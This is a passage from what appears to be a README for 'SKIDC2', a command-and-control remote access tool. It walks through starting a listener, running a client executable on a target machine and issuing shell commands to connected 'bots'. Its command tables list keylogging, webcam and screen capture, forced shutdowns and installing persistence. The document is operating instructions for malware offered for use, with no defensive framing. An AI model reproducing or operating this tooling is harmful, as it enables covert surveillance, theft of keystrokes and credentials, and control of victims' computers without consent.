 2. **Start listening**
   ```bash
   SKIDC2> listen
   [+] Enter port to listen on: 1337
   [+] Listening on port 1337...
   ```

3. **Execute on target**  
   Run `Client.exe` on target machine

4. **Manage connections**
   ```bash
   SKIDC2> list
   SKIDC2> interact 0
   BOT/0> shell whoami
   ```

## 🛠️ Command Reference

### Basic Commands
| Command | Description |
|---------|-------------|
| `build` | Create a new client executable |
| `listen` | Start C2 server listener |
| `list` | Show connected bots |
| `interact <#>` | Enter interactive session with bot |
| `help` | Show command help |

### Surveillance Commands  
| Command | Description |
|---------|-------------|
| `screenshot` | Capture remote desktop |
| `keylog` | Retrieve keystroke logs |
| `webcam` | Capture webcam image |
| `processes` | List running processes |

### System Commands
| Command | Description |
|---------|-------------|
| `lock` | Lock workstation |
| `shutdown` | Force shutdown |
| `reboot` | Force reboot |
| `persist` | Install persistence |
